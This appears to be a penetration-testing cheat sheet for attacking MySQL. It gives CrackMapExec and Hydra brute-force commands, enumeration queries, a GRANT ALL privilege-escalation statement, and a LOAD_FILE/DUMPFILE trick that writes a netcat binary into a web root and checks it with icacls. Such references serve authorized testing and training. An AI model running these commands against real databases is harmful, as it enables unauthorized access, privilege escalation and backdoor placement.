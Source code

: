 
**Crackmapexec**

    crackmapexec mysql -d <database> -u <username> -p <password> -x "SHOW DATABASES;" <target_ip>
    

**Brute Force**

    # Brute force MySQL login using Hydra
    hydra -l <username> -P <password_list> -s 3306 -vV <IP> mysql
    

**Loggin In**

    mysql -h <target_ip> -u <username> -p <database>
    

**Database Usage**

    SHOW DATABASES;
    
    USE <database_name>;
    
    SHOW TABLES;
    
    DESCRIBE <table_name>;
    
    SELECT * FROM <table_name>;
    

**Exploitation Examples**

    # Database User Enumeration
    SELECT user FROM mysql.user;
    
    # Privilege Escalation
    GRANT ALL PRIVILEGES ON *.* TO &#39;<username>&#39;@&#39;%&#39; WITH GRANT OPTION;
    FLUSH PRIVILEGES;
    

**Check System Permissions of the DB User**

    # 1. Copy an already existing file from Windows to another location.
    SELECT LOAD_FILE(&#39;C:\\xampp\htdocs\\ncat.exe&#39;) INTO DUMPFILE &#39;C:\\xampp\\htdocs\\nc.exe&#39;;
    
    # 2. Check the permissions of the new written file.
    icacls &#39;C:\\xampp\htdocs\nc.exe&#39;
    
    # An output like the one below indicates that the file was written with admin privileges, therefore the DB user has admin privilege (consider WerTrigger exploit for excalation).
    nc.exe WinServer\\apache:(I)(F)  
        NT AUTHORITY\\SYSTEM:(I)(F)  
        BUILTIN\\Administrators:(I)(F)  
        BUILTIN\\Users:(I)(RX)  
    Successfully processed 1 files; Failed processing 0 files
    